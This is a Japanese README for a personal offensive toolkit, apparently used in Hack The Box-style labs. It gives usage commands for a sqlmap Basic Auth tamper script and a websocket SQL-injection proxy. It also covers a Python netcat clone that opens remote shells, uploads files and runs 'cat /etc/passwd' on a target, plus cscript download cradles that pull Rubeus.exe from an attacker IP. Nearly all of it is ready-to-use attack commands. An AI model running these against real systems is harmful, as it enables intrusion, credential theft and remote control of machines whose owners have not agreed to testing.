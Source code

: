 # side_tool
個人的ハックツールに付与できる拡張機能コードリスト

## sqlmap_basic_auth.py
sqlmapコマンドのBasic Auth Base64 Request拡張機能コード
<br/>
コマンド例
```
sqlmap -r ./req --tamper=./sqlmap_basic_auth.py --ignore-code=401 --level 5 --risk 3
```
リクエスト例
```
#req
GET http://example.htb/ HTTP/1.1
Content-Length: 0

...
Authorization: Basic *
```
## sqlmap_websocket.py
websocketのプロトコルを介したsqlmapの実行。プロキシ`localhost:8081`を縦てそこからSQLi対象へ送ります。
<br/>
コマンド例
```
# websocketインストール
pip install websocket

# プロキシ起動
python3 sqlmap_websocket.py

# sqlmap実行
sqlmap -u "http://localhost:8081/?id=1" --batch --dbs
```

## netcat.py
Python環境が存在（ほぼある）するターゲットで簡易的に足場を構築するためのもの

```
# 対話型コマンドシェルの起動
netcat.py -t 10.11.14.13 -p 4444 -l -c
# ファイルのアップロード
netcat.py -t 10.11.14.13 -p 4444 -l -u=mytest.whatisup
# コマンドの実行
netcat.py -t 10.11.14.13 -p 4444 -l -e=\"cat /etc/passwd\"
# 通信先サーバーの135番ポートに文字列を送信
echo 'ABCDEFGHI' | ./netcat.py -t 10.11.14.13 -p 135
# サーバーに接続
netcat.py -t 10.11.14.13 -p 4444
```
## windows_wget_script
Windows標準で組み込まれているスクリプト言語を使ってWgetを実行する物

CMD例：
```
#Javascript
cscript.exe /nologo wget.js hxxp://10.11.14.13/Rubeus.exe

#VBS
cscript.exe /nologo wget.vbs hxxp://10.11.14.13/Rubeus.exe
```
